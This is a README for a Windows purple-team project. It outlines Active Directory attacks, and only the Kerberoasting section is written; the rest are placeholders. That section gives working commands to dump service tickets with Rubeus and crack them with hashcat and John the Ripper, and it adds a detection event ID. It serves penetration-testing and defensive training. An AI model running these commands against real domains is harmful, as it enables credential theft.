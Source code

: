 # Cybersecurity Windows Purple Project Documentation
Cybersecurity Red team and Blue team tooling for ease of use during penetration test and purple team exercises. 

## Table of Contents

1. [Kerberoasting](#kerberoasting)
2. [AS-REProasting](#as-reproasting)
3. [GPP Passwords](#gpp-passwords)
4. [GPO Permissions/GPO Files](#gpo-permissionsgpo-files)
5. [Credentials in Shares](#credentials-in-shares)
6. [Credentials in Object Properties](#credentials-in-object-properties)
7. [DCSync](#dcsync)
8. [Golden Ticket](#golden-ticket)
9. [Kerberos Constrained Delegation](#kerberos-constrained-delegation)
10. [Print Spooler & NTLM Relaying](#print-spooler--ntlm-relaying)
11. [Coercing Attacks & Unconstrained Delegation](#coercing-attacks--unconstrained-delegation)
12. [Object ACLs](#object-acls)
13. [PKI - ESC1](#pki---esc1)

---

## Kerberoasting
To obtain crackable tickets, we can use [Rubeus](https://github.com/GhostPack/Rubeus) 

`PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt`

We can use hashcat with the hash-mode (option -m) 13100 for a Kerberoastable TGS. 
We also pass a [dictionary file](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) with passwords (the file passwords.txt) and save the output of any successfully cracked tickets to a file called cracked.txt:

`hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"`

Alternatively, the captured TGS hashes can be cracked with John The Ripper:

`sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot`

*Detection*: When a TGS is requested, an event log with ID 4769 is generated.

## AS-REProasting

*Coming soon...*

## GPP Passwords

*Coming soon...*

## GPO Permissions/GPO Files

*Coming soon...*

## Credentials in Shares

*Coming soon...*

## Credentials in Object Properties

*Coming soon...*

## DCSync

*Coming soon...*

## Golden Ticket

*Coming soon...*

## Kerberos Constrained Delegation

*Coming soon...*

## Print Spooler & NTLM Relaying

*Coming soon...*

## Coercing Attacks & Unconstrained Delegation

*Coming soon...*

## Object ACLs

*Coming soon...*

## PKI - ESC1

*Coming soon...*


